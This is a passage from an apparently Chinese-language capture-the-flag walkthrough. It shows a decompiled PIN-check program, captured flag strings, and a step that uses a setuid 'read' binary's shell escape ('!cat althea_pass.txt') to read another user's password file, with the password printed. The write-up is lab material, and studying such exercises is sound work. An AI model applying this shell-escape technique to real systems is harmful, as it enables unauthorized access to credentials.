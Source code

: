 直接 base64 外带，然后反编译即可

```c title="反编译结果"
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+1Ch] [rbp-4h] BYREF

  printf("Enter PIN code:\n");
  __isoc99_scanf("%i", &v4);
  if (v4 == 5880)
    printf("DsYzpJQrCEndEWIMxWxu");
  else
    puts("\nNO :_(");
  return 0;
}
```

## User - alala

### flag - 02

```plaintext
^gTdGmkwhDrCqKrDQpxH^
```

### 任务目标

```plaintext title="mission.txt"
User althea loves reading Linux help.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root   alala  4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 alala  alala   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alala  alala  3.5K Jan 25 00:37 .bashrc
-rw-r--r-- 1 alala  alala   807 Apr 23  2023 .profile
-r--r----- 1 althea althea   21 Jul 26  2023 althea_pass.txt
-rw-r----- 1 root   alala    22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   alala   164 Jul 26  2023 mission.txt
-rwS--s--- 1 root   alala   16K Jul 26  2023 read
```

```shell title="Exploit it"
./read
# 进入后输入以下命令
!cat althea_pass.txt
# ObxEmwisYjERrDfvSbdA
```

## User - althea
